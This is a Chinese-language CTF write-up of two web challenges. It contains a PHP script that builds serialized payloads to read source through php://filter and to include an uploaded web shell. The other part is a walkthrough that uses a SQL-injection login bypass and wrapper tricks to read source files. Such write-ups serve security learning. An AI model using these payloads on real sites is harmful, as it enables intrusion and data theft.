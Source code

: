 
### happyphp

```
<?php

class Server{
    public $file;
}

$a = new Server;
$a->file = "php://filter/read=convert.base64-encode/resource=files_upload_api.php";
echo urlencode(serialize($a));

echo "<br>";

$a = new Server;
$a->file = "LXJuploadspaht/shell.jpg"; //你上传的shell
echo urlencode(serialize($a));
```

### K&K战队的老家
#### 原理知识
1）	由于网站开发者在进行代码编写过程中未对输入参数进行严格校验及过滤，导致黑客可以通过构造SQL语句，获取目标网站后台数据库中的信息。

2）	SQL注入是输入特定的SQL语句达到SQL注入的效果，不同类型的SQL数据库类型所对应的SQL语句不一样，因此，尝试SQL注入测试前，需要获取目标网站数据库类型，通常，根据测试者的测试经验或采用不同数据库类型的测试的方法进行测试，有效获得目标网站真实数据库类型。

3）	PHP是弱类型语言

4）	PHP魔术方法可以通过反序列化进行触发

#### 解题过程
1.  打开浏览器，访问目标主机，发现登录框

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/cb9602cd3c83cd58635bff01fff42823.png)

1.  构造万能密码 ‘||1||’登录

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/f781cac39386f55caf82e4667e1c9e4c.png)

1.  发现/home.php?m=debug无法访问

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/0bb67653980950e30858fc09cb65a80c.png)

1.  通过m参数利用php伪协议绕过过滤读取题目源代码

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/3774d088ce498995f46d4f841dd9455f.png)

1.  通过代码审计可知access.php和flag.php，同时发现备份文件access.php.bak

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/b4b60f19b3b4838665dec5d8eb9e10c0.png)

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/13f3c91cfa843cf87aa6361d5dbf9755.png)

